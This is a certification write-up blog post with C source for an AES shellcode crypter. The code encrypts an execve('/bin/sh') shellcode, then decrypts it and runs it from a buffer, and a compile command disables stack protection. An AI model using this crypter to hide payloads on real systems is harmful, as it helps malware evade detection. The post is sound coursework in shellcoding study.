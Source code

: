 ```yaml
---
comments: true
date: 2014-05-12
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
categories:
- programming
- SLAE
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

```c
//Description:	Assignment #7 (PoC of Crypter using AES-256)
//Author: 		Paolo Stivanin <https://github.com/polslinux>
//SLAE ID:		526

#include <stdio.h>
#include <string.h>
#include <gcrypt.h>
#include <stdint.h>
    
#define ENC 1

static void crypt(int, size_t, uint8_t *);

uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

#if !ENC
	uint8_t encShell[] = "";
#endif

uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
const char *key = "securitytubeSLAE";

int
main (void)
{
	int i, ag = gcry_cipher_map_name("aes256");
	size_t ln = strlen(origShell);
	uint8_t *buf = malloc(ln);

	crypt(ag, ln, buf);
	#if ENC
		for(i=0; i<ln; i++){
			printf("\\x%02x", buf[i]);
		}
		printf("\n");
	#else
		int (*ret)() = (int(*)())buf;
		ret();
	#endif

	free(buf);

	return 0;
}

static void
crypt(  int algo,
        size_t len,
        uint8_t *buf)
{
	gcry_cipher_hd_t hd;
	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
	gcry_cipher_setkey(hd, key, 16);
	gcry_cipher_setiv(hd, iv, 16);
	gcry_cipher_setctr(hd, ctr, 16);
	#if ENC
		gcry_cipher_encrypt(hd, buf, len, origShell, len);
	#else
		gcry_cipher_decrypt(hd, buf, len, encShell, len);
	#endif
	gcry_cipher_close(hd);
}
```

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
